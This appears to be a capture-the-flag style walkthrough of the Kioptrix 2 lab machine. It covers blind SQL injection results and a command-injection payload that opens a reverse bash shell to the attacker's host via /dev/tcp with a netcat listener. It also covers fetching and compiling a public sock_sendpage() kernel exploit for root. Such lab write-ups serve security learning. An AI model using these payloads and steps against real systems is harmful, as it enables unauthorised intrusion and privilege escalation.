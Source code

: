 Okay, so we have ```root```, ```john```, and ```harold``` users. Before I hop on the box, I wanted to see what kind of data I could grab from the SQLi. Our injection is blind, so I wrote up a script that is at the bottom of the post to check different queries from our injection (sidenote: I always forget MySQL string indexing is 1-based...). Here is some compiled exfil'd data from the injection.
```
coastals-MacBook-Pro:kio2 coastal$ python3 blind_sqli.py "user()"

[+] Bruted value of user(): john@localhost
[+] Bruted value of version(): 4.1.22
[+] Bruted value of database(): webapp
[+] Bruted value of uuid(): 00ed34e4e40?a824?10035?81ee?0080000273f72eb
```

Unfortunately, I couldn't get any database schema information. It seems that either it was blocked from accession or I had an issue with my syntax that I couldn't debug. It appeared that I couldn't get any data from a nested ```select``` query which limited me to the stock fields and built-in functions. Anyways, we've figured out that ```john``` is running the webapp's db, named ```webapp```. Now that it seems we've exhausted that approach, let's grab a shell and look around a little more.

```
192.168.56.102; /bin/bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```

```
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 32771
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$
```

Alright we get an apache shell. After looking around for configuration files, enumerating services and suid files, and checking for default creds, it looked like we were going to have to go with a kernel privilege escalation exploit (as our kernel is super old). I tried two exploits, the ```ip_append_data()``` and ```sock_sendpage()``` exploits (links below). 

[ip_append_data() exploit](https://www.exploit-db.com/exploits/9542/)

[sock_sendpage() exploit](https://www.exploit-db.com/exploits/9545/)

Both of the sources were grabbed with ```wget``` from a ```python -m SimpleHTTPServer 1337``` hosted on the attacking box. I couldn't get the ```ip_append_data()``` exploit to work, although looking at other writeups it seems like people were able to use that privesc. I'm not sure my C skills are good enough to debug the issue, but maybe I'll take a crack at it in the future. Fortunately, the ```sock_sendpage()``` exploit worked for me.

```
bash-3.00$ gcc -Wall -o sendpage sendpage.c
bash-3.00$ ./sendpage
```

<img src="{{ site.baseurl }}/images/vulnhub/2017-06-14-kioptrix-2/rooted.png">

And we've pwn'd the box!
